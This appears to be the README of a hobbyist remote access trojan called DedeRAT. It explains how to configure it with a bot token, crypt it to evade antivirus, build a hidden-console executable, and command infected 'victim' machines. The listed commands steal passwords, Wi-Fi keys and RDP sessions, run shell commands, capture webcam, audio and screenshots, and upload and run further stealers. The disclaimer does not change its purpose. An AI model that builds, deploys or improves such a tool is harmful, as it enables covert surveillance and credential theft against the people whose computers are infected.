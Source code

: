 # DedeRAT

This RAT made inspired by Dede Korkut from Turkish mitology. My first RAT project. I hope you will like this.

# Installation

- Install it as git or zip
- Open 'config.py' in a text editor.
- Change "serverid" and "bottoken" according to your values
- Open the "NMSFUD" folder and open "NMSFUD V3.5" file. Select Python file and crypt the your virus.
- Turn this to exe using pyinstaller (You can use icons in util/iconpack)

## Command Examples

```pyinstaller --onefile --noconsole -i util/iconspack/iconname.ico -n virus config.py```

```pyinstaller --onefile --noconsole -n virus config.py```

```pyinstaller --onefile --noconsole config.py```

# Commands

cd - Change directory. Usage: cd C:\full\path\of\directory

pwd - See the current directory.

delet - Remove a file.

download - Download a file from the victim's computer. Usage: 

download C:\full\path\of\directory

msgbox - Show a message box. Usage: msgbox -msg Message -ttl Title

record - Record for a specified time. Usage: record 10 (where 10 is the number of seconds)

setbg - Upload a photo to change the background.

shell - Execute CMD commands. Usage: shell dir

ss - Take a screenshot.

stealrdp - Steal RDP session information.

sysinfo - Read system information.

upload - Upload a file to the victim. Usage: upload C:\full\path\of\your\wish (attach a file)

capsrandtroll - Randomize text case to troll. Usage: capsrandtroll 10 (where 10 is the number of seconds)

visitsite - Visit a specified site.

shutdown - Shutdown the victim's computer.

tasklist - List open programs on the victim's PC.

taskkill - Close a program or game on the victim's PC.

write - Write a sentence on the victim's PC.

moveto - Move the victim's mouse. Usage: moveto 100, 300 
(where 100 and 300 are x and y coordinates)

webcamlist - List available webcams.

cameraphoto - Take a photo with the webcam.

execute - Execute a file. Usage: execute <path>

recordvideo - Record a video for a specified time. Usage: recordvideo 10.0 (where 10.0 is the duration in seconds as a float)

wifipasswords - List saved Wi-Fi networks and passwords.

grab - Grab the victim's passwords.

### NOTE :

You need to run command like "dede ss si:12345" (si:<session-id>)

# Suggestion

You can upload ```dede upload (upload a stealer.exe) si:<session-id>``` a stealer and run ```dede execute path/of/stealer.exe si:<session-id>``` the virus because my grabber is so bad :(

# Disclaimer:

I do not accept responsibility for anything done with this tool, the responsibility lies with the person using the tool.

# Thanks To :

- LydexCoding
- NMS
- Basfroxy
- LyrexEx
